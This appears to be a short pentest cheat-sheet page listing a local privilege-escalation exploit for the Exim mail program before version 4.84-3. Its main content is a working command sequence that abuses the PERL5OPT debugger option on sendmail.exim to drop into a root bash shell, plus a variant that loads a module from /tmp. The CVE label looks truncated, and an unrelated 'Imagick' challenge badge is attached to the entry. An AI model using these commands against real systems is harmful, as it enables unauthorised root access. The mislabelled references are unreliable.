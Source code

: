 # Linux Vulnerable Applications

<div class="row row-cols-lg-2"><div>

#### Exim Mail Client | CVE-2016-153

[![imagick](../../../../_badges/rootme/realist/imagick.svg)](https://www.root-me.org/en/Challenges/Realist/Imagick)

Versions prior to 4.84-3 are vulnerable to LPE.

```shell!
$ PERL5OPT="-d/dev/null" /usr/sbin/sendmail.exim -ps victim@localhost
shell> p system("/bin/bash");
```

You can alternatively use a configuration stored in `/tmp/victim.pm` with `PERL5LIB=/tmp PERL5OPT=-Mvictim` before calling the program.
</div><div>
</div></div>